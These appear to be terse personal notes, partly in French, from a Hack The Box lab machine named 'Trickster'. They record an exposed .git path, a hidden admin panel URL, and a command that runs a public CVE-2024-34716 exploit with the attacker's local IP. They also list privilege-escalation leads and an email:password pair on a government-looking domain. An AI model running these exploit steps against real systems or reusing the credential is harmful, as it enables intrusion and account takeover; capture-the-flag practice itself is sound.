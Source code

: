 abc@mcn.gouv.qc.ca:passwordnotabc

shop.trickster.htb/.git

http://shop.trickster.htb/admin634ewutrx1jgitlooaj/index.php

admin@trickster.htb:???

https://github.com/aelmokhtar/CVE-2024-34716/tree/main

python exploit.py --url 'http://shop.trickster.htb' --email 'admin@trickster.htb' --local-ip 10.10.14.97 --admin-path admin634ewutrx1jgitlooaj

======================
MariaDB
sshd james
suid /opt/google/chrome/chrome-sandbox
https://www.exploit-db.com/exploits/51983
serveur HTTP sur 127.0.0.1:45279 Pas de page web
avec pspy64 on voit des processus de google chrome s'exécuter. Le mot zygote revient que j'ai vu dans un exploit
/usr/sbin/sendmail -FCronDaemon -i -B8BITMIME -oem root